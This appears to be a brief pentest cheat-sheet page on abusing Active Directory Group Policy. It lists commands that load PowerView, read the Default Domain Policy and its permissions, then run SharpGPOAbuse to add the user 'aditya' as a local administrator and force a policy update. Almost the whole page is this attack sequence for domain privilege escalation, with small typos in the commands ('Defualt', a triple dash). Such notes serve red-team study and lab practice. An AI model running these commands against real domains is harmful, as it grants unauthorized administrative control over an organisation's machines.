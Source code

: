 # GPO

Initialize powerview

```
./powerview.ps1
```

Then check for Default Domain Policy:

```
Get-GPO -Name "Defualt Domain Policy"
```

Now after getting Guid to check for permissions:

```
Get-GPPermission -Guid <id> -TargetType User -TargetName <account name>
```

<figure><img src="../../../.gitbook/assets/GPO.png" alt=""><figcaption></figcaption></figure>

Then use SharpGPOAbuse:

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount aditya ---GPOName "Default Domain Policy"
```

Then:

```
gpupdate /force
```

